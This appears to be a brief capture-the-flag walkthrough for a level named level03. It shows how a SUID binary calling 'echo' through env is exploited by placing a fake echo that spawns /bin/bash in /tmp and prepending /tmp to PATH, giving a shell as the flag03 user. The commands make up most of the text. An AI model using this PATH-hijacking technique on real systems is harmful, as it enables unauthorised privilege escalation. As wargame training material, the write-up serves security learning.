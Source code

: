  **SUID** binary 
`-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03`

```bash
strings level03
```

got -> 
`/usr/bin/env echo Exploit me`

This means the **level03** executable is using the **echo** command. So we can manipulate the **PATH** variable and **echo** command. This manipulation will lead us to become flag03 user.


```bash
echo "/bin/bash" > /tmp/echo
chmod 777 /tmp/echo && export PATH=/tmp:$PATH
./level03
```